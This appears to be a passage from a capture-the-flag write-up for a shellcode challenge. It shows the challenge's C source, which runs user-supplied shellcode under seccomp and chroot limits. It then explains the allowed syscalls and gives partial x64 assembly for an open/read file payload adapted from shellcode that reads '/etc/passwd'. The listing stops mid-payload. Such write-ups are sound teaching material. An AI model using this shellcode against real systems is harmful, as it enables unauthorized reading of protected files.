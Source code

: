 ```bash
	char* sh = (char*)mmap(0x41414000, 0x1000, 7, MAP_ANONYMOUS | MAP_FIXED | MAP_PRIVATE, 0, 0);
	memset(sh, 0x90, 0x1000);
	memcpy(sh, stub, strlen(stub));
	
	int offset = sizeof(stub);
	printf("give me your x64 shellcode: ");
	read(0, sh+offset, 1000);

	alarm(10);
	chroot("/home/asm_pwn");	// you are in chroot jail. so you can't use symlink in /tmp
	sandbox();
	((void (*)(void))sh)();
	return 0;
}
```

Before reading my solution i'd recommend you to walkthrough the code and understand each line written in this code snippet.

This code allows us to input any shellcode we'd like and execute it for us in needed permissions, although there's a catch, The code has some secure computing state rules, basically meaning we can execute only certain system calls, more specifically:
- open
- read
- write
- exit
- exit_group

So this means we cannot execute fun stuff like execve and similar syscalls we usually do in these challenges. 
There's also a `chroot` in the `main` function that puts us in a chroot jail, meaning we cannot access stuff beyond our root directory (which is `/home/asm_pwn`).

So my first trivial idea would be to open our flag file and read it, then write to stdout.

So instead of writing my own shellcode (which i highly recommend you do), i found a written shellcode that does what i need but for '/etc/passwd'.

Assembly:
```Assembly
SECTION .data
SECTION .text
 global main
main:
jmp _push_filename
  
_readfile:
; syscall open file
pop rdi ; pop path value
; NULL byte fix
xor byte [rdi + 11], 0x41
  
xor rax, rax
add al, 2
xor rsi, rsi ; set O_RDONLY flag
syscall
  
; syscall read file
sub sp, 0xfff
lea rsi, [rsp]
mov rdi, rax
xor rdx, rdx
mov dx, 0xfff; size to read
xor rax, rax
syscall
  
```